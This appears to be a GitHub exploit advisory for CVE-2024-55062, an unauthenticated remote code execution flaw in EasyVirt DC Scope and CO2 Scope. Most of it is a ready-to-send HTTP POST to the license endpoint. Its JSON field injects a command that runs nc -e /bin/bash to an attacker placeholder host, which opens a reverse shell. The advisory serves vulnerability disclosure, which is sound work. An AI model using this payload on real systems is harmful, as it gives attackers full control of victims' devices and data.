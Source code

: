 # [CVE-2024-55062] - EasyVirt - Remote Code Execution (Unauthenticated)
#### Exploit Author: [Aurélien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 25-10-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions: 
- DC Scope <= 8.6.0
- CO2 Scope <= 1.3.0

## Description:
Code Injection vulnerability in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote unauthenticated attackers to execute arbitrary code to `/api/license/sendlicense/`.

## Exploitation:
```
POST /api/license/sendlicense/ HTTP/1.1
Host: XX.XX.XX.XX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Content-Type: application/json; charset=utf-8
Content-Length: 26
Te: trailers
Connection: close

["random';nc -e /bin/bash YY.YY.YY.YY 1234;'"]
```

## Impact:
Exploiting an RCE allows an attacker to gain full control of the device, potentially compromising all the data it protects.
